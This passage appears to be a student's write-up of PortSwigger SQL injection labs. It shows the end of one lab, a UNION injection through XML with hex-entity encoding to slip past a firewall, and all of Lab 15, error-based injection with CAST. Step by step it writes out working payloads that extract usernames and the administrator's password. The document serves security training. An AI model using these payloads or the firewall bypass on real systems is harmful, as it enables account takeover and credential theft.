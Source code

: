 - Perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

 **Procedure :-**

1. Map the site with Burp-suite.
2. Open the "POST /product/stock" in repeater, there is xml input add `UNION SELECT NULL` after 1, here the attack is detected.
3. Then use heckvertor to encode to hex_entities to bypass firewall.(build in, burpsuite extension) and now it can be bypass.
4. ` UNION SELECT NULL` also ahow that it contain only 1 column , and we need username and password.
5. Try ` UNION SELECT username || ' - ' || password from users ` and the admin cred can be seen. and login with admin credential.


## LAB - 15
**lab link: <https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based>**

 **Topic :-** 

- Visible error-based SQL injection..

 **To Solve :-**

- Find a way to leak the password for the `administrator` user, then log in to their account.

 **Procedure :-**

1. Open the site in burp suite. send `GET /product?productID=9` into repeater as it interact with backend.
2. Check for SQLi Vuln using `'` after trackid, and it will give an verbose error, which can be visible.
3. Now try ` ' -- `, now there is no error.
4. Now try ` ' AND CAST ((SELECT 1) as int) -- `, the visible error return that it should be of boolean type , not int.
5. Now try ` ' AND 1=CAST((SELECT 1) as int)--`, now there is no error.
6. Try ` ' AND 1=cast((select username from users) as int)-- `, the visible error suggest there are only certain number of char available for track id, So remove the track id number and try again. the visible error return that it should return only one value.
7. Try ` ' AND 1=cast((select username from users limit 1) as int) --`, the visible error return the username "administrator"
8. Now ` ' AND 1=cast((select password from users limit 1) as int) --`, the visible error will return the password of admin.
9. Now login with admin credential.